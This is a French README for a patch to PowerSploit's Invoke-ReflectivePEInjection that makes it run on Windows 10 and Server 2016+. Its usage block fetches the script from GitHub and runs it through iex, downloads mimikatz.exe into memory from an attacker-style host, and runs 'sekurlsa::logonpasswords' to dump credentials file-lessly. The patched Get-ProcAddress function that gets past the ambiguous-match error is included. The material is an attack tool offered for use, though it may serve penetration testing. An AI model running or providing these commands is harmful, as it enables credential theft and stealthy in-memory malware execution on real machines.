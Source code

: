 
# Invoke-ReflectivePEInjection - Patch pour Windows 10 et Windows Server 2016+

## Usage

```powershell
# Activer TLS 1.2 pour le téléchargement
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12

# Télécharger la version corrigée d'Invoke-ReflectivePEInjection
$b = Invoke-RestMethod -Uri "https://raw.githubusercontent.com/SafeITConsulting/Invoke-ReflectivePEInjection/refs/heads/master/Invoke-ReflectivePEInjection.ps1"
iex($b)

# Télécharger un fichier PE (exemple : mimikatz.exe) en mémoire
$x = (New-Object System.Net.WebClient).DownloadData('https://attackercdn.fr/mimikatz.exe')

# Exécuter l'outil injecté en mémoire
Invoke-ReflectivePEInjection -PEBytes ($x) -ExeArgs "sekurlsa::logonpasswords exit"
```

---

## Contexte

L'ancienne version de `Invoke-ReflectivePEInjection` provenant de **PowerSploit** ne fonctionne plus correctement sur les systèmes **Windows Server 2016+** et **Windows 10 récents**.  
L'erreur se produit principalement dans la fonction `Get-ProcAddress` lors de l'appel aux méthodes `GetMethod` et `GetDelegateForFunctionPointer`.

### Exemple d'erreur :
```plaintext
Exception lors de l'appel de « GetMethod » avec « 1 » argument(s) : « Correspondance ambiguë trouvée. »
Au caractère Ligne:1002 : 9
+         $GetProcAddress = $UnsafeNativeMethods.GetMethod('GetProcAddr ...
+         ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : AmbiguousMatchException
```

---

## Correctif (Patch)

### Fonction `Get-ProcAddress` corrigée
```powershell
Function Get-ProcAddress {
    Param (
        [OutputType([IntPtr])]
        [Parameter(Position = 0, Mandatory = $True)]
        [String] $Module,
        [Parameter(Position = 1, Mandatory = $True)]
        [String] $Procedure
    )
    $SystemAssembly = [AppDomain]::CurrentDomain.GetAssemblies() | Where-Object {
        $_.GlobalAssemblyCache -And $_.Location.Split('\')[-1].Equals('System.dll')
    }
    $UnsafeNativeMethods = $SystemAssembly.GetType('Microsoft.Win32.UnsafeNativeMethods')
    
    # Récupère une référence aux méthodes GetModuleHandle et GetProcAddress
    $GetModuleHandle = $UnsafeNativeMethods.GetMethod('GetModuleHandle')
    $x = $($UnsafeNativeMethods.GetMethods() | Where-Object { $_.Name -eq "getprocaddress" })
    
    # Gestion des doublons : sélectionner la méthode appropriée
    if (Get-Member -InputObject $x -Name Length -MemberType Properties) {
        $GetProcAddress = $x[1]
    } else {
        $GetProcAddress = $UnsafeNativeMethods.GetMethod("GetProcAddress")
    }
    
    $Kern32Handle = $GetModuleHandle.Invoke($null, @($Module))
    $tmpPtr = New-Object IntPtr
    $HandleRef = New-Object System.Runtime.InteropServices.HandleRef($tmpPtr, $Kern32Handle)
    
    Write-Output $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef]$HandleRef, $Procedure))
}
```

---

## Explication

- **`Get-ProcAddress`** : Cette fonction patchée corrige la gestion des méthodes en cas de doublons, qui provoque l'erreur **"Correspondance ambiguë"**.
- **`Invoke-ReflectivePEInjection`** : Cette commande permet l'injection d'une charge PE directement en mémoire.
- **Mode file-less** : Le fichier `mimikatz.exe` est téléchargé et injecté sans toucher le FS

---

## Sources
- Ancienne version PowerSploit :  
  [PowerSploit CodeExecution](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)  

- Version corrigée :  
  [SafeITConsulting/Invoke-ReflectivePEInjection](https://raw.githubusercontent.com/SafeITConsulting/Invoke-ReflectivePEInjection/refs/heads/master/Invoke-ReflectivePEInjection.ps1)  
